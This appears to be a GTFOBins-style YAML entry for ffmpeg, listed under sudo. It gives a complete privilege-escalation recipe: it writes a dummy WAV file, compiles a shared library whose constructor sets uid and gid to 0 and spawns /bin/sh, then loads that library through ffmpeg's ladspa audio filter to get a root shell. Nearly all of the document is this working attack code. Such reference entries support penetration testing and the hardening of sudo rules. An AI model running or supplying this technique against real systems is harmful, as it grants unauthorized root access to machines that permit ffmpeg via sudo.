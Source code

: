 ```yaml
---
functions:
  sudo:
    - description: The ladspa filter loads external plugins for audio processing. Load a malicious shared library to execute code and get a shell.
      code: |
        TD=$(mktemp -d)
        printf "\x52\x49\x46\x46\x24\x00\x00\x00\x57\x41\x56\x45\x66\x6d\x74\x20\x10\x00\x00\x00\x01\x00\x01\x00\x22\x56\x00\x00\x22\x56\x00\x00\x01\x00\x08\x00\x64\x61\x74\x61\x00\x00\x00\x00" > "$TD/any.wav"
        echo -e '#include <unistd.h>\n#include <stdlib.h>\n__attribute__((constructor)) static void setup(void) {\nsetgid(0);\nsetuid(0);\nsystem("/bin/sh -c reset");\nsystem("/bin/sh");\n}' | gcc -x c -shared -fPIC -o $TD/libgtfo.so - 
        sudo ffmpeg -i $TD/any.wav -af "ladspa=file=$TD/libgtfo.so" -f null a.wav
---
```

